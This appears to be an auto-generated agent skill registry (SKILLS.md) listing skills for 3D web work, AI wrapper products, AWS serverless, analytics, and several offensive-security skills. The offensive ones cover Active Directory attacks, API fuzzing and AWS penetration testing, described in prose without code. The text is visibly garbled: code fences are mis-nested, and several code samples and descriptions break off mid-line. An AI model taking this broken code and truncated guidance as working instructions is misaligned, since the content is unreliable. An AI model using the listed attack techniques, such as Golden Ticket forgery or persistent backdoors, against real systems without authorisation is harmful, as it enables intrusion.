



# SKILLS.md — Local Agent Intelligence

> **Status**: `INITIALIZED`
> **Discovery Mode**: `AUTO`

This registry contains specialized skills discovered in `.agent/skills/`. Each skill provides domain-specific knowledge and optimized prompts for Antigravity.

---

## Technical Details
This file is both a human-readable inventory and a machine-readable registry. GSD uses the `<gsd_registry>` block below for automated tool selection and prompt injection.

---

## 3d-web-experience
- **ID**: `3d-web-experience`
- **Confidence**: `1.0`

### Description
"Expert in building 3D experiences for the web - Three.js, React Three Fiber, Spline, WebGL, and interactive 3D scenes. Covers product configurators, 3D portfolios, immersive websites, and bringing depth to web experiences. Use when: 3D website, three.js, WebGL, react three fiber, 3D experience."

### When to Use
### 3D Stack Selection

Choosing the right 3D approach

**When to use**: When starting a 3D web project

```python

### When to Use
### Options Comparison
| Tool | Best For | Learning Curve | Control |
|------|----------|----------------|---------|
| Spline | Quick prototypes, designers | Low | Medium |
| React Three Fiber | React apps, complex scenes | Medium | High |
| Three.js vanilla | Max control, non-React | High | Maximum |
| Babylon.js | Games, heavy 3D | High | Maximum |

### Decision Tree
```
Need quick 3D element?
└── Yes → Spline
└── No → Continue

Using React?
└── Yes → React Three Fiber
└── No → Continue

Need max performance/control?
└── Yes → Three.js vanilla
└── No → Spline or R3F
```

### Spline (Fastest Start)
```jsx
import Spline from '@splinetool/react-spline';

export default function Scene() {
  return (
    <Spline scene="https://prod.spline.design/xxx/scene.splinecode" />
  );
}
```

### React Three Fiber
```jsx
import { Canvas } from '@react-three/fiber';
import { OrbitControls, useGLTF } from '@react-three/drei';

function Model() {
  const { scene } = useGLTF('/model.glb');
  return <primitive object={scene} />;
}

export default function Scene() {
  return (
    <Canvas>
      <ambientLight />
      <Model />
      <OrbitControls />
    </Canvas>
  );
}
```
```

### 3D Model Pipeline

Getting models web-ready

**When to use**: When preparing 3D assets

```python

### When to Use
### Format Selection
| Format | Use Case | Size |
|--------|----------|------|
| GLB/GLTF | Standard web 3D | Smallest |
| FBX | From 3D software | Large |
| OBJ | Simple meshes | Medium |
| USDZ | Apple AR | Medium |

### Optimization Pipeline
```
1. Model in Blender/etc
2. Reduce poly count (< 100K for web)
3. Bake textures (combine materials)
4. Export as GLB
5. Compress with gltf-transform
6. Test file size (< 5MB ideal)
```

### GLTF Compression
```bash
# Install gltf-transform
npm install -g @gltf-transform/cli

# Compress model
gltf-transform optimize input.glb output.glb \
  --compress draco \
  --texture-compress webp
```

### Loading in R3F
```jsx
import { useGLTF, useProgress, Html } from '@react-three/drei';
import { Suspense } from 'react';

function Loader() {
  const { progress } = useProgress();
  return <Html center>{progress.toFixed(0)}%</Html>;
}

export default function Scene() {
  return (
    <Canvas>
      <Suspense fallback={<Loader />}>
        <Model />
      </Suspense>
    </Canvas>
  );
}
```
```

### Scroll-Driven 3D

3D that responds to scroll

**When to use**: When integrating 3D with scroll

```python

---

## ab-test-setup
- **ID**: `ab-test-setup`
- **Confidence**: `0.5`

### Description
Structured guide for setting up A/B tests with mandatory gates for hypothesis, metrics, and execution readiness.

---

## Active Directory Attacks
- **ID**: `active-directory-attacks`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "attack Active Directory", "exploit AD", "Kerberoasting", "DCSync", "pass-the-hash", "BloodHound enumeration", "Golden Ticket", "Silver Ticket", "AS-REP roasting", "NTLM relay", or needs guidance on Windows domain penetration testing.

### Purpose
Provide comprehensive techniques for attacking Microsoft Active Directory environments. Covers reconnaissance, credential harvesting, Kerberos attacks, lateral movement, privilege escalation, and domain dominance for red team operations and penetration testing.

### Behavior & Constraints
**Must:**
- Synchronize time with DC before Kerberos attacks
- Have valid domain credentials for most attacks
- Document all compromised accounts

**Must Not:**
- Lock out accounts with excessive password spraying
- Modify production AD objects without approval
- Leave Golden Tickets without documentation

**Should:**
- Run BloodHound for attack path discovery
- Check for SMB signing before relay attacks
- Verify patch levels for CVE exploitation

---

---

## address-github-comments
- **ID**: `address-github-comments`
- **Confidence**: `0.5`

### Description
Use when you need to address review or issue comments on an open GitHub Pull Request using the gh CLI.

---

## agent-evaluation
- **ID**: `agent-evaluation`
- **Confidence**: `0.5`

### Description
"Testing and benchmarking LLM agents including behavioral testing, capability assessment, reliability metrics, and production monitoring—where even top agents achieve less than 50% on real-world benchmarks Use when: agent testing, agent evaluation, benchmark agents, agent reliability, test agent."

---

## agent-manager-skill
- **ID**: `agent-manager-skill`
- **Confidence**: `1.0`

### Description
Manage multiple local CLI agents via tmux sessions (start/stop/monitor/assign) with cron-friendly scheduling.

### When to Use
Use this skill when you need to:

- run multiple local CLI agents in parallel (separate tmux sessions)
- start/stop agents and tail their logs
- assign tasks to agents and monitor output
- schedule recurring agent work (cron)

---

## agent-memory-mcp
- **ID**: `agent-memory-mcp`
- **Confidence**: `1.0`

### Description
A hybrid memory system that provides persistent, searchable knowledge management for AI agents (Architecture, Patterns, Decisions).

### Activation
1. **Clone the Repository**:
   Clone the `agentMemory` project into your agent's workspace or a parallel directory:

   ```bash
   git clone https://github.com/webzler/agentMemory.git .agent/skills/agent-memory
   ```

2. **Install Dependencies**:

   ```bash
   cd .agent/skills/agent-memory
   npm install
   npm run compile
   ```

3. **Start the MCP Server**:
   Use the helper script to activate the memory bank for your current project:

   ```bash
   npm run start-server <project_id> <absolute_path_to_target_workspace>
   ```

   _Example for current directory:_

   ```bash
   npm run start-server my-project $(pwd)
   ```

---

## agent-memory-systems
- **ID**: `agent-memory-systems`
- **Confidence**: `0.5`

### Description
"Memory is the cornerstone of intelligent agents. Without it, every interaction starts from zero. This skill covers the architecture of agent memory: short-term (context window), long-term (vector stores), and the cognitive architectures that organize them.  Key insight: Memory isn't just storage - it's retrieval. A million stored facts mean nothing if you can't find the right one. Chunking, embedding, and retrieval strategies determine whether your agent remembers or forgets.  The field is fragm"

---

## agent-tool-builder
- **ID**: `agent-tool-builder`
- **Confidence**: `0.5`

### Description
"Tools are how AI agents interact with the world. A well-designed tool is the difference between an agent that works and one that hallucinates, fails silently, or costs 10x more tokens than necessary.  This skill covers tool design from schema to error handling. JSON Schema best practices, description writing that actually helps the LLM, validation, and the emerging MCP standard that's becoming the lingua franca for AI tools.  Key insight: Tool descriptions are more important than tool implementa"

---

## ai-agents-architect
- **ID**: `ai-agents-architect`
- **Confidence**: `0.5`

### Description
"Expert in designing and building autonomous AI agents. Masters tool use, memory systems, planning strategies, and multi-agent orchestration. Use when: build agent, AI agent, autonomous agent, tool use, function calling."

---

## ai-product
- **ID**: `ai-product`
- **Confidence**: `0.5`

### Description
"Every product will be AI-powered. The question is whether you'll build it right or ship a demo that falls apart in production.  This skill covers LLM integration patterns, RAG architecture, prompt engineering that scales, AI UX that users trust, and cost optimization that doesn't bankrupt you. Use when: keywords, file_patterns, code_patterns."

---

## ai-wrapper-product
- **ID**: `ai-wrapper-product`
- **Confidence**: `1.0`

### Description
"Expert in building products that wrap AI APIs (OpenAI, Anthropic, etc.) into focused tools people will pay for. Not just 'ChatGPT but different' - products that solve specific problems with AI. Covers prompt engineering for products, cost management, rate limiting, and building defensible AI businesses. Use when: AI wrapper, GPT product, AI tool, wrap AI, AI SaaS."

### When to Use
### AI Product Architecture

Building products around AI APIs

**When to use**: When designing an AI-powered product

```python

### When to Use
### The Wrapper Stack
```
User Input
    ↓
Input Validation + Sanitization
    ↓
Prompt Template + Context
    ↓
AI API (OpenAI/Anthropic/etc.)
    ↓
Output Parsing + Validation
    ↓
User-Friendly Response
```

### Basic Implementation
```javascript
import Anthropic from '@anthropic-ai/sdk';

const anthropic = new Anthropic();

async function generateContent(userInput, context) {
  // 1. Validate input
  if (!userInput || userInput.length > 5000) {
    throw new Error('Invalid input');
  }

  // 2. Build prompt
  const systemPrompt = `You are a ${context.role}.
    Always respond in ${context.format}.
    Tone: ${context.tone}`;

  // 3. Call API
  const response = await anthropic.messages.create({
    model: 'claude-3-haiku-20240307',
    max_tokens: 1000,
    system: systemPrompt,
    messages: [{
      role: 'user',
      content: userInput
    }]
  });

  // 4. Parse and validate output
  const output = response.content[0].text;
  return parseOutput(output);
}
```

### Model Selection
| Model | Cost | Speed | Quality | Use Case |
|-------|------|-------|---------|----------|
| GPT-4o | $$$ | Fast | Best | Complex tasks |
| GPT-4o-mini | $ | Fastest | Good | Most tasks |
| Claude 3.5 Sonnet | $$ | Fast | Excellent | Balanced |
| Claude 3 Haiku | $ | Fastest | Good | High volume |
```

### Prompt Engineering for Products

Production-grade prompt design

**When to use**: When building AI product prompts

```javascript

### When to Use
### Prompt Template Pattern
```javascript
const promptTemplates = {
  emailWriter: {
    system: `You are an expert email writer.
      Write professional, concise emails.
      Match the requested tone.
      Never include placeholder text.`,
    user: (input) => `Write an email:
      Purpose: ${input.purpose}
      Recipient: ${input.recipient}
      Tone: ${input.tone}
      Key points: ${input.points.join(', ')}
      Length: ${input.length} sentences`,
  },
};
```

### Output Control
```javascript
// Force structured output
const systemPrompt = `
  Always respond with valid JSON in this format:
  {
    "title": "string",
    "content": "string",
    "suggestions": ["string"]
  }
  Never include any text outside the JSON.
`;

// Parse with fallback
function parseAIOutput(text) {
  try {
    return JSON.parse(text);
  } catch {
    // Fallback: extract JSON from response
    const match = text.match(/\{[\s\S]*\}/);
    if (match) return JSON.parse(match[0]);
    throw new Error('Invalid AI output');
  }
}
```

### Quality Control
| Technique | Purpose |
|-----------|---------|
| Examples in prompt | Guide output style |
| Output format spec | Consistent structure |
| Validation | Catch malformed responses |
| Retry logic | Handle failures |
| Fallback models | Reliability |
```

### Cost Management

Controlling AI API costs

**When to use**: When building profitable AI products

```javascript

---

## algolia-search
- **ID**: `algolia-search`
- **Confidence**: `0.5`

### Description
"Expert patterns for Algolia search implementation, indexing strategies, React InstantSearch, and relevance tuning Use when: adding search to, algolia, instantsearch, search api, search functionality."

---

## algorithmic-art
- **ID**: `algorithmic-art`
- **Confidence**: `0.5`

### Description
Creating algorithmic art using p5.js with seeded randomness and interactive parameter exploration. Use this when users request creating art using code, generative art, algorithmic art, flow fields, or particle systems. Create original algorithmic art rather than copying existing artists' work to avoid copyright violations.

---

## analytics-tracking
- **ID**: `analytics-tracking`
- **Confidence**: `1.0`

### Description
>

### Activation
### Event Taxonomy

**Navigation / Exposure**

* page_view (enhanced)
* content_viewed
* pricing_viewed

**Intent Signals**

* cta_clicked
* form_started
* demo_requested

**Completion Signals**

* signup_completed
* purchase_completed
* subscription_changed

**System / State Changes**

* onboarding_completed
* feature_activated
* error_occurred

---

### Event Naming Conventions

**Recommended pattern:**

```
object_action[_context]
```

Examples:

* signup_completed
* pricing_viewed
* cta_hero_clicked
* onboarding_step_completed

Rules:

* lowercase
* underscores
* no spaces
* no ambiguity

---

### Event Properties (Context, Not Noise)

Include:

* where (page, section)
* who (user_type, plan)
* how (method, variant)

Avoid:

* PII
* free-text fields
* duplicated auto-properties

---

### Behavior & Constraints
(Proceed only after scoring)

### 1. Business Context

* What decisions will this data inform?
* Who uses the data (marketing, product, leadership)?
* What actions will be taken based on insights?

---

### 2. Current State

* Tools in use (GA4, GTM, Mixpanel, Amplitude, etc.)
* Existing events and conversions
* Known issues or distrust in data

---

### 3. Technical & Compliance Context

* Tech stack and rendering model
* Who implements and maintains tracking
* Privacy, consent, and regulatory constraints

---

1. What decisions depend on this data?
2. Which metrics are currently trusted or distrusted?
3. Who owns analytics long term?
4. What compliance constraints apply?
5. What tools are already in place?

---

---

## api-documentation-generator
- **ID**: `api-documentation-generator`
- **Confidence**: `1.0`

### Description
"Generate comprehensive, developer-friendly API documentation from code, including endpoints, parameters, examples, and best practices"

### When to Use
- Use when you need to document a new API
- Use when updating existing API documentation
- Use when your API lacks clear documentation
- Use when onboarding new developers to your API
- Use when preparing API documentation for external users
- Use when creating OpenAPI/Swagger specifications

### Behavior & Constraints
### ✅ Do This

- **Be Consistent** - Use the same format for all endpoints
- **Include Examples** - Provide working code examples in multiple languages
- **Document Errors** - List all possible error codes and their meanings
- **Show Real Data** - Use realistic example data, not "foo" and "bar"
- **Explain Parameters** - Describe what each parameter does and its constraints
- **Version Your API** - Include version numbers in URLs (/api/v1/)
- **Add Timestamps** - Show when documentation was last updated
- **Link Related Endpoints** - Help users discover related functionality
- **Include Rate Limits** - Document any rate limiting policies
- **Provide Postman Collection** - Make it easy to test your API

### ❌ Don't Do This

- **Don't Skip Error Cases** - Users need to know what can go wrong
- **Don't Use Vague Descriptions** - "Gets data" is not helpful
- **Don't Forget Authentication** - Always document auth requirements
- **Don't Ignore Edge Cases** - Document pagination, filtering, sorting
- **Don't Leave Examples Broken** - Test all code examples
- **Don't Use Outdated Info** - Keep documentation in sync with code
- **Don't Overcomplicate** - Keep it simple and scannable
- **Don't Forget Response Headers** - Document important headers

---

## API Fuzzing for Bug Bounty
- **ID**: `api-fuzzing-bug-bounty`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test API security", "fuzz APIs", "find IDOR vulnerabilities", "test REST API", "test GraphQL", "API penetration testing", "bug bounty API testing", or needs guidance on API security assessment techniques.

### Purpose
Provide comprehensive techniques for testing REST, SOAP, and GraphQL APIs during bug bounty hunting and penetration testing engagements. Covers vulnerability discovery, authentication bypass, IDOR exploitation, and API-specific attack vectors.

### Behavior & Constraints
**Must:**
- Test mobile, web, and developer APIs separately
- Check all API versions (/v1, /v2, /v3)
- Validate both authenticated and unauthenticated access

**Must Not:**
- Assume same security controls across API versions
- Skip testing undocumented endpoints
- Ignore rate limiting checks

**Should:**
- Add `X-Requested-With: XMLHttpRequest` header to simulate frontend
- Check archive.org for historical API endpoints
- Test for race conditions on sensitive operations

---

---

## api-patterns
- **ID**: `api-patterns`
- **Confidence**: `1.0`

### Description
API design principles and decision-making. REST vs GraphQL vs tRPC selection, response formats, versioning, pagination.

### When to Use
| File | Description | When to Read |
|------|-------------|--------------|
| `api-style.md` | REST vs GraphQL vs tRPC decision tree | Choosing API type |
| `rest.md` | Resource naming, HTTP methods, status codes | Designing REST API |
| `response.md` | Envelope pattern, error format, pagination | Response structure |
| `graphql.md` | Schema design, when to use, security | Considering GraphQL |
| `trpc.md` | TypeScript monorepo, type safety | TS fullstack projects |
| `versioning.md` | URI/Header/Query versioning | API evolution planning |
| `auth.md` | JWT, OAuth, Passkey, API Keys | Auth pattern selection |
| `rate-limiting.md` | Token bucket, sliding window | API protection |
| `documentation.md` | OpenAPI/Swagger best practices | Documentation |
| `security-testing.md` | OWASP API Top 10, auth/authz testing | Security audits |

---

---

## api-security-best-practices
- **ID**: `api-security-best-practices`
- **Confidence**: `1.0`

### Description
"Implement secure API design patterns including authentication, authorization, input validation, rate limiting, and protection against common API vulnerabilities"

### When to Use
- Use when designing new API endpoints
- Use when securing existing APIs
- Use when implementing authentication and authorization
- Use when protecting against API attacks (injection, DDoS, etc.)
- Use when conducting API security reviews
- Use when preparing for security audits
- Use when implementing rate limiting and throttling
- Use when handling sensitive data in APIs

---

## app-builder
- **ID**: `app-builder`
- **Confidence**: `1.0`

### Description
Main application building orchestrator. Creates full-stack applications from natural language requests. Determines project type, selects tech stack, coordinates agents.

### When to Use
Quick-start scaffolding for new projects. **Read the matching template only!**

| Template | Tech Stack | When to Use |
|----------|------------|-------------|
| [nextjs-fullstack](templates/nextjs-fullstack/TEMPLATE.md) | Next.js + Prisma | Full-stack web app |
| [nextjs-saas](templates/nextjs-saas/TEMPLATE.md) | Next.js + Stripe | SaaS product |
| [nextjs-static](templates/nextjs-static/TEMPLATE.md) | Next.js + Framer | Landing page |
| [nuxt-app](templates/nuxt-app/TEMPLATE.md) | Nuxt 3 + Pinia | Vue full-stack app |
| [express-api](templates/express-api/TEMPLATE.md) | Express + JWT | REST API |
| [python-fastapi](templates/python-fastapi/TEMPLATE.md) | FastAPI | Python API |
| [react-native-app](templates/react-native-app/TEMPLATE.md) | Expo + Zustand | Mobile app |
| [flutter-app](templates/flutter-app/TEMPLATE.md) | Flutter + Riverpod | Cross-platform mobile |
| [electron-desktop](templates/electron-desktop/TEMPLATE.md) | Electron + React | Desktop app |
| [chrome-extension](templates/chrome-extension/TEMPLATE.md) | Chrome MV3 | Browser extension |
| [cli-tool](templates/cli-tool/TEMPLATE.md) | Node.js + Commander | CLI app |
| [monorepo-turborepo](templates/monorepo-turborepo/TEMPLATE.md) | Turborepo + pnpm | Monorepo |

---

---

## app-store-optimization
- **ID**: `app-store-optimization`
- **Confidence**: `1.0`

### Description
Complete App Store Optimization (ASO) toolkit for researching, optimizing, and tracking mobile app performance on Apple App Store and Google Play Store

### Behavior & Constraints
### Data Dependencies
- Keyword search volume estimates are approximate (no official data from Apple/Google)
- Competitor data may be incomplete for private apps
- Review analysis limited to public reviews (can't access private feedback)
- Historical data may not be available for new apps

### Platform Constraints
- Apple App Store keyword changes require app submission (except Promotional Text)
- Google Play Store metadata changes take 1-2 hours to index
- A/B testing requires significant traffic for statistical significance
- Store algorithms are proprietary and change without notice

### Industry Variability
- ASO benchmarks vary significantly by category (games vs. utilities)
- Seasonality affects different categories differently
- Geographic markets have different competitive landscapes
- Cultural preferences impact what works in different countries

### Scope Boundaries
- Does not include paid user acquisition strategies (Apple Search Ads, Google Ads)
- Does not cover app development or UI/UX optimization
- Does not include app analytics implementation (use Firebase, Mixpanel, etc.)
- Does not handle app submission technical issues (provisioning profiles, certificates)

### When NOT to Use This Skill
- For web apps (different SEO strategies apply)
- For enterprise apps not in public stores
- For apps in beta/TestFlight only
- If you need paid advertising strategies (use marketing skills instead)

---

## architecture
- **ID**: `architecture`
- **Confidence**: `1.0`

### Description
Architectural decision-making framework. Requirements analysis, trade-off evaluation, ADR documentation. Use when making architecture decisions or analyzing system design.

### Behavior & Constraints
Before finalizing architecture:

- [ ] Requirements clearly understood
- [ ] Constraints identified
- [ ] Each decision has trade-off analysis
- [ ] Simpler alternatives considered
- [ ] ADRs written for significant decisions
- [ ] Team expertise matches chosen patterns

---

## autonomous-agent-patterns
- **ID**: `autonomous-agent-patterns`
- **Confidence**: `1.0`

### Description
"Design patterns for building autonomous coding agents. Covers tool integration, permission systems, browser automation, and human-in-the-loop workflows. Use when building AI agents, designing tool APIs, implementing permission systems, or creating autonomous coding assistants."

### When to Use
Use this skill when:

- Building autonomous AI agents
- Designing tool/function calling APIs
- Implementing permission and approval systems
- Creating browser automation for agents
- Designing human-in-the-loop workflows

---

---

## autonomous-agents
- **ID**: `autonomous-agents`
- **Confidence**: `0.5`

### Description
"Autonomous agents are AI systems that can independently decompose goals, plan actions, execute tools, and self-correct without constant human guidance. The challenge isn't making them capable - it's making them reliable. Every extra decision multiplies failure probability.  This skill covers agent loops (ReAct, Plan-Execute), goal decomposition, reflection patterns, and production reliability. Key insight: compounding error rates kill autonomous agents. A 95% success rate per step drops to 60% b"

---

## avalonia-layout-zafiro
- **ID**: `avalonia-layout-zafiro`
- **Confidence**: `0.5`

### Description
Guidelines for modern Avalonia UI layout using Zafiro.Avalonia, emphasizing shared styles, generic components, and avoiding XAML redundancy.

---

## avalonia-viewmodels-zafiro
- **ID**: `avalonia-viewmodels-zafiro`
- **Confidence**: `0.5`

### Description
Optimal ViewModel and Wizard creation patterns for Avalonia using Zafiro and ReactiveUI.

---

## avalonia-zafiro-development
- **ID**: `avalonia-zafiro-development`
- **Confidence**: `0.5`

### Description
Mandatory skills, conventions, and behavioral rules for Avalonia UI development using the Zafiro toolkit.

---

## AWS Penetration Testing
- **ID**: `aws-penetration-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "pentest AWS", "test AWS security", "enumerate IAM", "exploit cloud infrastructure", "AWS privilege escalation", "S3 bucket testing", "metadata SSRF", "Lambda exploitation", or needs guidance on Amazon Web Services security assessment.

### Purpose
Provide comprehensive techniques for penetration testing AWS cloud environments. Covers IAM enumeration, privilege escalation, SSRF to metadata endpoint, S3 bucket exploitation, Lambda code extraction, and persistence techniques for red team operations.

### Behavior & Constraints
**Must:**
- Obtain written authorization before testing
- Document all actions for audit trail
- Test in scope resources only

**Must Not:**
- Modify production data without approval
- Leave persistent backdoors without documentation
- Disable security controls permanently

**Should:**
- Check for IMDSv2 before attempting metadata attacks
- Enumerate thoroughly before exploitation
- Clean up test resources after engagement

---

---

## aws-serverless
- **ID**: `aws-serverless`
- **Confidence**: `1.0`

### Description
"Specialized skill for building production-ready serverless applications on AWS. Covers Lambda functions, API Gateway, DynamoDB, SQS/SNS event-driven patterns, SAM/CDK deployment, and cold start optimization."

### When to Use
### Lambda Handler Pattern

Proper Lambda function structure with error handling

**When to use**: ['Any Lambda function implementation', 'API handlers, event processors, scheduled tasks']

```python
```javascript
// Node.js Lambda Handler
// handler.js

// Initialize outside handler (reused across invocations)
const { DynamoDBClient } = require('@aws-sdk/client-dynamodb');
const { DynamoDBDocumentClient, GetCommand } = require('@aws-sdk/lib-dynamodb');

const client = new DynamoDBClient({});
const docClient = DynamoDBDocumentClient.from(client);

// Handler function
exports.handler = async (event, context) => {
  // Optional: Don't wait for event loop to clear (Node.js)
  context.callbackWaitsForEmptyEventLoop = false;

  try {
    // Parse input based on event source
    const body = typeof event.body === 'string'
      ? JSON.parse(event.body)
      : event.body;

    // Business logic
    const result = await processRequest(body);

    // Return API Gateway compatible response
    return {
      statusCode: 200,
      headers: {
        'Content-Type': 'application/json',
        'Access-Control-Allow-Origin': '*'
      },
      body: JSON.stringify(result)
    };
  } catch (error) {
    console.error('Error:', JSON.stringify({
      error: error.message,
      stack: error.stack,
      requestId: context.awsRequestId
    }));

    return {
      statusCode: error.statusCode || 500,
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({
        error: error.message || 'Internal server error'
      })
    };
  }
};

async function processRequest(data) {
  // Your business logic here
  const result = await docClient.send(new GetCommand({
    TableName: process.env.TABLE_NAME,
    Key: { id: data.id }
  }));
  return result.Item;
}
```

```python
# Python Lambda Handler
# handler.py

import json
import os
import logging
import boto3
from botocore.exceptions import ClientError

# Initialize outside handler (reused across invocations)
logger = logging.getLogger()
logger.setLevel(logging.INFO)

dynamodb = boto3.resource('dynamodb')
table = dynamodb.Table(os.environ['TABLE_NAME'])

def handler(event, context):
    try:
        # Parse i
```

### API Gateway Integration Pattern

REST API and HTTP API integration with Lambda

**When to use**: ['Building REST APIs backed by Lambda', 'Need HTTP endpoints for functions']

```javascript
```yaml
# template.yaml (SAM)
AWSTemplateFormatVersion: '2010-09-09'
Transform: AWS::Serverless-2016-10-31

Globals:
  Function:
    Runtime: nodejs20.x
    Timeout: 30
    MemorySize: 256
    Environment:
      Variables:
        TABLE_NAME: !Ref ItemsTable

Resources:
  # HTTP API (recommended for simple use cases)
  HttpApi:
    Type: AWS::Serverless::HttpApi
    Properties:
      StageName: prod
      CorsConfiguration:
        AllowOrigins:
          - "*"
        AllowMethods:
          - GET
          - POST
          - DELETE
        AllowHeaders:
          - "*"

  # Lambda Functions
  GetItemFunction:
    Type: AWS::Serverless::Function
    Properties:
      Handler: src/handlers/get.handler
      Events:
        GetItem:
          Type: HttpApi
          Properties:
            ApiId: !Ref HttpApi
            Path: /items/{id}
            Method: GET
      Policies:
        - DynamoDBReadPolicy:
            TableName: !Ref ItemsTable

  CreateItemFunction:
    Type: AWS::Serverless::Function
    Properties:
      Handler: src/handlers/create.handler
      Events:
        CreateItem:
          Type: HttpApi
          Properties:
            ApiId: !Ref HttpApi
            Path: /items
            Method: POST
      Policies:
        - DynamoDBCrudPolicy:
            TableName: !Ref ItemsTable

  # DynamoDB Table
  ItemsTable:
    Type: AWS::DynamoDB::Table
    Properties:
      AttributeDefinitions:
        - AttributeName: id
          AttributeType: S
      KeySchema:
        - AttributeName: id
          KeyType: HASH
      BillingMode: PAY_PER_REQUEST

Outputs:
  ApiUrl:
    Value: !Sub "https://${HttpApi}.execute-api.${AWS::Region}.amazonaws.com/prod"
```

```javascript
// src/handlers/get.js
const { getItem } = require('../lib/dynamodb');

exports.handler = async (event) => {
  const id = event.pathParameters?.id;

  if (!id) {
    return {
      statusCode: 400,
      body: JSON.stringify({ error: 'Missing id parameter' })
    };
  }

  const item =
```

### Event-Driven SQS Pattern

Lambda triggered by SQS for reliable async processing

**When to use**: ['Decoupled, asynchronous processing', 'Need retry logic and DLQ', 'Processing messages in batches']

```python
```yaml
# template.yaml
Resources:
  ProcessorFunction:
    Type: AWS::Serverless::Function
    Properties:
      Handler: src/handlers/processor.handler
      Events:
        SQSEvent:
          Type: SQS
          Properties:
            Queue: !GetAtt ProcessingQueue.Arn
            BatchSize: 10
            FunctionResponseTypes:
              - ReportBatchItemFailures  # Partial batch failure handling

  ProcessingQueue:
    Type: AWS::SQS::Queue
    Properties:
      VisibilityTimeout: 180  # 6x Lambda timeout
      RedrivePolicy:
        deadLetterTargetArn: !GetAtt DeadLetterQueue.Arn
        maxReceiveCount: 3

  DeadLetterQueue:
    Type: AWS::SQS::Queue
    Properties:
      MessageRetentionPeriod: 1209600  # 14 days
```

```javascript
// src/handlers/processor.js
exports.handler = async (event) => {
  const batchItemFailures = [];

  for (const record of event.Records) {
    try {
      const body = JSON.parse(record.body);
      await processMessage(body);
    } catch (error) {
      console.error(`Failed to process message ${record.messageId}:`, error);
      // Report this item as failed (will be retried)
      batchItemFailures.push({
        itemIdentifier: record.messageId
      });
    }
  }

  // Return failed items for retry
  return { batchItemFailures };
};

async function processMessage(message) {
  // Your processing logic
  console.log('Processing:', message);

  // Simulate work
  await saveToDatabase(message);
}
```

```python
# Python version
import json
import logging

logger = logging.getLogger()

def handler(event, context):
    batch_item_failures = []

    for record in event['Records']:
        try:
            body = json.loads(record['body'])
            process_message(body)
        except Exception as e:
            logger.error(f"Failed to process {record['messageId']}: {e}")
            batch_item_failures.append({
                'itemIdentifier': record['messageId']
            })

    return {'batchItemFailures': batch_ite
```

---

## azure-functions
- **ID**: `azure-functions`
- **Confidence**: `0.5`

### Description
"Expert patterns for Azure Functions development including isolated worker model, Durable Functions orchestration, cold start optimization, and production patterns. Covers .NET, Python, and Node.js programming models. Use when: azure function, azure functions, durable functions, azure serverless, function app."

---

## backend-dev-guidelines
- **ID**: `backend-dev-guidelines`
- **Confidence**: `1.0`

### Description
